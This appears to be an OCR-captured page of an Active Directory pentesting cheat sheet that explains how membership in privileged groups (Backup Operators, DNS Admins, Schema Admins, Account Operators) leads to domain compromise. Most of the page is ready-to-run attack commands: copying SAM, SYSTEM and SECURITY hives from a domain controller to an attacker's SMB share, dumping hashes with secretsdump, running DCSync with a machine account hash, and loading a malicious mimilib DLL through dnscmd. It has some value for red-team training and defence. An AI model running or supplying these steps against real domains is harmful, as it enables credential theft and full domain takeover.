 ```
- Schema Admins,	Members can modify the Active Directory schema structure and can backdoor any to-be-created Group/GPO by adding a compromised account to the default object ACL.
- DNS Admins,	Members have the ability to load a DLL on a DC but do not have the necessary permissions to restart the DNS server. They can load a malicious DLL and wait for a reboot as a persistence mechanism. Loading a DLL will often result in the service crashing. A more reliable way to exploit this group is to create a WPAD record.

### Backup Operators
- Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. 
- Backup Operators also can log on to and shut down the computer. 
- They also have the permissions needed to replace files (including operating system files) on domain controllers.

#### Get members of the backup operators group
```
Get-DomainGroupMember "Backup Operators" | Select-Object Membername
```

#### Host a public SMB share
```
python3 /opt/impacket/examples/smbserver.py share <DIRECTORY FOR SHARE> -smb2support
```

#### Retrieve SAM, SYSTEM, and SECURITY HIVE
- Run it as the "Backup Operator" user
- https://github.com/mpgn/BackupOperatorToDA
```
.\BackupOperatorToDA.exe -t \\<DC FQDN> -u <USER> -p <PASSWORD> -d <DOMAIN> -o \\<IP>\<SHARE>\
```

#### Run secretsdump.py to extract machine account hash
```
secretsdump.py LOCAL -system <DIRECTORY FOR SHARE>/SYSTEM -security <DIRECTORY FOR SHARE>/SECURITY -sam <DIRECTORY FOR SHARE>/SAM
````

#### Run DCSync with the computer account hash
```
secretsdump.py '<DOMAIN>/<DC COMPUTERACCONT NAME>$'@<DC FQDN> -hashes <LM HASH>:<NTLM HASH>
```

### Account Operators
The group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers. By default it has no direct path to Domain Admin, but these groups might be able to add members to other groups which have other ACL's etc. In this lab (as far as I know) you cant become DA with these privileges.

Paths to domain admins can be created if Exchange is installed for example since the Account Operator group can manage Exchange groups which have high privileges to the domain object. If they are created high privileged groups within the domain, there is a big chance that there is a path to gain access to other machines or domain admins using this group!

### DNS Admins
#### Enumerate member of the DNS admin group
```
Get-NetGRoupMember “DNSAdmins”
```

#### From the privilege of DNSAdmins group member, configue DDL using dnscmd.exe (needs RSAT DNS)
Share the directory the ddl is in for everyone so its accessible.
logs all DNS queries on C:\Windows\System32\kiwidns.log 
```
Dnscmd <dns server> /config /serverlevelplugindll \\<ip>\dll\mimilib.dll
```
````
